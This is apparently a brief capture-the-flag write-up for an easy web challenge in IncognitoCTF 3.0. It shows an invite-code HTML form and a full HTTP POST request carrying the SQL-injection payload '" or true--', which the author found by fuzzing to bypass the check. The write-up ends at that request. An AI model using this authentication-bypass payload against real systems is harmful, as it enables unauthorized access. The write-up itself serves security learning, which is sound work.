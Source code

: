 # IncognitoCTF 3.0 - invisble
#### about : 
- Type: web 
- Level: easy 
- Points : 100
- Website : http://142.93.209.130:8000

<center><img src="images/invisible.PNG"></center>


in the webiste i found in the source code this form : 

```html
<div class='center'>
<form action="/invite" method="POST">
  <label for="code">Invite code :</label><br>
  <input type="text" id="code" name="code" placeholder="invite code"><br><br>
  <input type="submit" value="Submit">
</form>
</div>
```

so what i tried first was some sql injection
and after some fuzzing with burpsuite i found the login with **" or true** payload  : 

```
POST /invite HTTP/1.1
Host: 142.93.209.130:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://142.93.209.130:8000/
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://142.93.209.130:8000
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

code=%22%20or%20true--
```
